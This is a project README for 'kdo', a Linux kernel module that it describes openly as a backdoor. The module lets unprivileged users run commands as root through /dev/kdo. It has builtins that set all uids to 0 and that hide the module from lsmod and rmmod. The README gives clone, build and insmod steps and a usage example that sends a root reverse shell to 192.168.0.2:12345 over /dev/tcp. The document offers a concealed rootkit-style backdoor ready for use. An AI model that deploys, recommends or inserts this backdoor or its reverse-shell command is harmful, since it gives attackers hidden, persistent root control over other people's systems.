 kdo
===
Kernel-level sudo. This is a very simple LKM that creates a character device at `/dev/kdo` to which
commands can be written and executed via `call_usermodehelper`, effectively creating a backdoor for
unprivileged users. Apart from command execution, some useful builtins are implemented as well.


Builtins
--------
- `kdo-su` \
Grant root privileges to the current process (set all uids to 0).

- `kdo-hide` \
Hide module from `lsmod` and make it impossible to unload with `rmmod`.

- `kdo-show` \
Make module visible and removable after running `kdo-hide`.


Installation
------------
**1**. Clone the repository
```bash
git clone https://github.com/hiatus/kdo
```

**2**. Build the module
```bash
cd kdo
make
```

**3**. Insert the module 
```
sudo insmod kdo.ko
```


Usage
-----
Simply write to `/dev/kdo`. Because the module treats anything (apart from builtins) as a last
argument for `/bin/sh -i -c`, redirection and other shell functionalities are supported. For
example, to send a root reverse shell to `192.168.0.2:12345`, run:
```bash
echo 'bash -i &> /dev/tcp/192.168.0.2/12345 0>&1' > /dev/kdo
```
